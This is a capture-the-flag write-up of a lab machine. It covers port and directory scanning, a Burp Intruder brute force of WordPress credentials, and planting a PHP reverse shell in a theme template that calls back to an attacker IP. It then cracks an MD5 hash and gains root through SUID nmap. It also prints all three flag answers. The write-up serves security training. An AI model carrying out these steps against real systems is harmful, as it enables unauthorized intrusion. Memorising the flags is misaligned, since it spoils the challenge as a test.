

---

> First, we start with an `nmap` scan of the target to identify open ports and running services.

```bash
└─$ nmap -sC -sV -Pn 10.10.72.195 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-01 17:25 EDT
Nmap scan report for 10.10.72.195
Host is up (0.33s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT    STATE  SERVICE  VERSION
22/tcp  closed ssh
80/tcp  open   http     Apache httpd
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
443/tcp open   ssl/http Apache httpd
|_http-title: 400 Bad Request
|_http-server-header: Apache
| ssl-cert: Subject: commonName=www.example.com
| Not valid before: 2015-09-16T10:45:03
|_Not valid after:  2025-09-13T10:45:03
```

We see 3 ports, `ssh`, `http`, and 443 for `https`.

> Opening the `http` port by going to the IP address in the browser, we are greeted with a webpage that has some sort of animation that ends with the ability to execute some commands.


Heading to the `/robots.txt` file, we see the following:


Trying to open the `key-1-of-3.txt` file to obtain the first flag.



###### What is key 1? : `073403c8a58a1f80d943455fb30724b9`

> Now, we try to open the other file `fsocity.dic` in the same way, and we see that it downloads a file.
- This is a wordlist file which can be used to brute force for username/password combinations.

Running a directory enumeration attack to check for other files:

```bash
└─$ gobuster dir -u http://10.10.72.195 -w /usr/share/wordlists/dirb/common.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.72.195
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 213]
/.htaccess            (Status: 403) [Size: 218]
/.htpasswd            (Status: 403) [Size: 218]
/0                    (Status: 301) [Size: 0] [--> http://10.10.72.195/0/]
/admin                (Status: 301) [Size: 234] [--> http://10.10.72.195/admin/]
/atom                 (Status: 301) [Size: 0] [--> http://10.10.72.195/feed/atom/]
/audio                (Status: 301) [Size: 234] [--> http://10.10.72.195/audio/]
/blog                 (Status: 301) [Size: 233] [--> http://10.10.72.195/blog/]
/css                  (Status: 301) [Size: 232] [--> http://10.10.72.195/css/]
/dashboard            (Status: 302) [Size: 0] [--> http://10.10.72.195/wp-admin/]
/favicon.ico          (Status: 200) [Size: 0]
/feed                 (Status: 301) [Size: 0] [--> http://10.10.72.195/feed/]
/image                (Status: 301) [Size: 0] [--> http://10.10.72.195/image/]
/Image                (Status: 301) [Size: 0] [--> http://10.10.72.195/Image/]
/images               (Status: 301) [Size: 235] [--> http://10.10.72.195/images/]
/index.html           (Status: 200) [Size: 1188]
/index.php            (Status: 301) [Size: 0] [--> http://10.10.72.195/]
/intro                (Status: 200) [Size: 516314]
/js                   (Status: 301) [Size: 231] [--> http://10.10.72.195/js/]
/license              (Status: 200) [Size: 309]
/login                (Status: 302) [Size: 0] [--> http://10.10.72.195/wp-login.php]
/page1                (Status: 301) [Size: 0] [--> http://10.10.72.195/]
/phpmyadmin           (Status: 403) [Size: 94]
/rdf                  (Status: 301) [Size: 0] [--> http://10.10.72.195/feed/rdf/]
/readme               (Status: 200) [Size: 64]
/robots.txt           (Status: 200) [Size: 41]
/robots               (Status: 200) [Size: 41]
/rss2                 (Status: 301) [Size: 0] [--> http://10.10.72.195/feed/]
/rss                  (Status: 301) [Size: 0] [--> http://10.10.72.195/feed/]
/sitemap              (Status: 200) [Size: 0]
/sitemap.xml          (Status: 200) [Size: 0]
/video                (Status: 301) [Size: 234] [--> http://10.10.72.195/video/]
/wp-admin             (Status: 301) [Size: 237] [--> http://10.10.72.195/wp-admin/]
/wp-content           (Status: 301) [Size: 239] [--> http://10.10.72.195/wp-content/]
/wp-config            (Status: 200) [Size: 0]
/wp-cron              (Status: 200) [Size: 0]
/wp-includes          (Status: 301) [Size: 240] [--> http://10.10.72.195/wp-includes/]
/wp-load              (Status: 200) [Size: 0]
/wp-links-opml        (Status: 200) [Size: 227]
/wp-login             (Status: 200) [Size: 2664]
/wp-mail              (Status: 500) [Size: 3064]
/wp-settings          (Status: 500) [Size: 0]
/wp-signup            (Status: 302) [Size: 0] [--> http://10.10.72.195/wp-login.php?action=register]
/xmlrpc               (Status: 405) [Size: 42]
/xmlrpc.php           (Status: 405) [Size: 42]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================
```

We see several important files, such as `wp-login`. Opening it, we see a WordPress CMS login page, which is most likely vulnerable.


Entering any username and password, we see that we get an an `invalid username` response.
- This can be vulnerable to brute force attack where we first brute force the username, until we get a different error message saying that the password this time is incorrect.

> Capturing a login request BurpSuite, and then using the Intruder tool with a Sniper attack, we set the positions at the username parameter.


We then load the wordlist `fsocity.dic` into the payload in the Payloads tab.


Running the attack, we monitor for a different response size other than the usual response size, which might indicate a different response message.


We see that there is a different size `4112` with the username `Elliot`.
- Opening its response, we see a different error message saying the password for this username is incorrect.

> Now we can use the username `Elliot`, and brute force in the same exact way the password.


Also, we can create a new resource pool to increase the number of concurrent requests to speed up the process.


After doing that, starting the attack will take some time to find the right password.

> Took me too long, so I decided to reverse the order of the wordlist and use it again.
- Did this because the hint says there is something fishy about why the wordlist is so long.

To reverse the wordlist, use the `tac` terminal command.

```bash
tac fsocity.dic > new_list
```

Now, using the same setup as above in Intruder, but deleting the wordlist and loading the new one.


> We see that the password `ER28-0652` triggers a different status code, and a smaller size than all other pages. It must be the password.

Logging into the `/wp-login` page with the new credentials `Elliot:ER28-0652`, we are redirected to the `/wp-admin` page.


We can try and obtain a reverse shell here by going to `/wp-admin/theme-editor.php`.


Now, we can paste the code of a reverse shell in one of the template on the side. Choosing the `404 Template` under the `Twenty Fifteen` selector.


Here we can paste the reverse shell code. Using the `/usr/share/webshells/php/php-reverse-shell.php`, and then changing the `IP` and `PORT` to those of our attacking machine.
- This is what the reverse shell will connect back to. Are found at lines 49 and 50.

```php
$ip = '10.2.73.192';  // CHANGE THIS
$port = 4444;       // CHANGE THIS
```

After that, we paste the entire `PHP` file in the editor in the webpage above, and then press on `update file` at the bottom to save our changes.

> Now, we need to setup a listener on our attacking machine. Do that using `netcat`. Use the same port as the one set in the reverse shell code.

```bash
nc -nlvp 4444
```

> Now, we can open the reverse shell by heading to the following URL that opens one of the templates we have pasted the malicious code in.
 
```
http://10.10.119.163/wp-content/themes/twentyfifteen/404.php
```
- It is in `/wp-content`, followed by the value chosen from the selector, followed by the name of the template.

> Once we open that URL, we get a connection on the `netcat` listener we set up.


> Now, we have access and can easily find the flags and escalate our privileges.

Going to `/home/robot`, we see 2 files. 

```bash
daemon@linux:/home/robot$ ls -lah
total 16K
drwxr-xr-x 2 root  root  4.0K Nov 13  2015 .
drwxr-xr-x 3 root  root  4.0K Nov 13  2015 ..
-r-------- 1 robot robot   33 Nov 13  2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot   39 Nov 13  2015 password.raw-md5
```

Trying to open the flag file doesn't work as we are not the `robot` user.
- We see a file in `raw-md5` format, which is a file that contains a hash of the password of the user `robot`.

```bash
daemon@linux:/home/robot$ cat password.raw-md5 
robot:c3fcd3d76192e4007dfb496cca67e13b
```

We can use the `john` tool to crack this password given the type of hash and the wordlist `fsoctiy.dic`.
- First we copy the contents of the file in a file on our local machine called `pass.txt`.

```bash
john pass.txt -w=./fsocity.dic --format=raw-md5 -rules
```

We see that the tool outputs the password:`robot:abcdefghijklmnopqrstuvwxyz`

> Using that to login to `robot`:

```bash
daemon@linux:/home/robot$ su robot
Password: 
robot@linux:~$ 
```

We are no logged in as `robot`, and can view the flag:

```bash
robot@linux:~$ cat key-2-of-3.txt 
822c73956184f694993bede3eb39f959
```

###### What is key 2? : `822c73956184f694993bede3eb39f959`

To escalate privileges, I looked for files that have the `SUID` bit set using the following command:

```bash
find / -type f -perm -04000 -ls 2>/dev/null
```


We get a list of all the binaries that can be run as sudo, and one of them stands out: `nmap`.

> Went to [GTFOBins](https://gtfobins.github.io/gtfobins/nmap/) and looked for `nmap`. Tried some of the given commands until one of them worked.

The one that worked was running `nmap` in an interactive shell. Then, we can execute commands inside that. Since `nmap` is run as `sudo`, then the shell commands we execute will be executed with `sudo` level permissions.

```bash
robot@linux:~$ nmap --interactive
nmap> !sh
# whoami
root
```

Now, we are root. Looking for the final flag.

```bash
# cat key-3-of-3.txt
04787ddef27c3dee1ee161b21670b4e4
```

###### What is key 3?: `04787ddef27c3dee1ee161b21670b4e4`

---
